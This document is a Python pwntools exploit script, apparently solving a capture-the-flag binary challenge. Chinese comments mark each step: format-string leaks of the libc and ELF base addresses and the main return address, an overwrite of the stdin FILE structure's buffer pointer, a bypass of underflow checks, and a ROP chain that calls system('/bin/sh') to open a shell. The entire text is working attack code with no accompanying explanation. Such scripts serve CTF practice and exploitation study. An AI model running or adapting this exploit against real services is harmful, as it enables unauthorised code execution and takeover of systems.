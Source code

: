 ```python
IO_stdin = libc.symbols['_IO_2_1_stdin_']
context.terminal = ['tmux', 'splitw', '-h']
gdb.attach(p)

def echo_back(size, con):
    p.sendlineafter('choice>> ', '2')
    p.sendlineafter('length:', str(size))
    p.send(con)

def name(name):
    p.sendlineafter('choice>> ', '1')
    p.sendafter('name:', name)

def pause(p, s = 'pause'):
    return raw_input(s)

# 泄露libc基址
echo_back(7, '%19$p')
p.recvuntil('0x')
libc_s_m_addr = int(p.recvuntil('-').split('-')[0], 16) - 240
print hex(libc_s_m_addr)

offset = libc_s_m_addr - libc.symbols['__libc_start_main']
system = libc.symbols['system'] + offset
bin_sh = libc.search('/bin/sh').next() + offset
IO_stdin_addr = IO_stdin + offset
print hex(offset)
# 泄露elf基址
echo_back(7, '%14$p')
p.recvuntil('0x')
elf_base = int(p.recvuntil('-', drop=True), 16) - 0xd30
prdi = prdi + elf_base
# 泄露main返回地址
echo_back(7, '%12$p')
p.recvuntil('0x')
main_ebp = int(p.recvuntil('-', drop=True), 16)
main_ret = main_ebp + 0x8
# 修改IO_buf_base，增大输入字符数
IO_buf_base = IO_stdin_addr + 0x8 * 7
print "IO_buf_base:"+hex(IO_buf_base)
name(p64(IO_buf_base))
echo_back(7, '%16$hhn')
# 输入payload，覆盖stdinFILE结构的关键参数
payload = p64(IO_stdin_addr + 131) * 3 + p64(main_ret) + p64(main_ret + 3 * 0x8)
p.sendlineafter('choice>> ', '2')
p.sendafter('length:', payload)
p.sendline('')
# 绕过_IO_new_file_underflow中检测
for i in range(0,len(payload) - 1):
    p.sendlineafter('choice>> ', '2')
    p.sendlineafter('length:', '0')
# 实现指定位置写
pause(p)
p.sendlineafter('choice>> ', '2')
p.sendlineafter('length:', p64(prdi) + p64(bin_sh) + p64(system))
p.sendline('')
# getshell
p.sendlineafter('choice>> ', '3')
p.interactive()
```
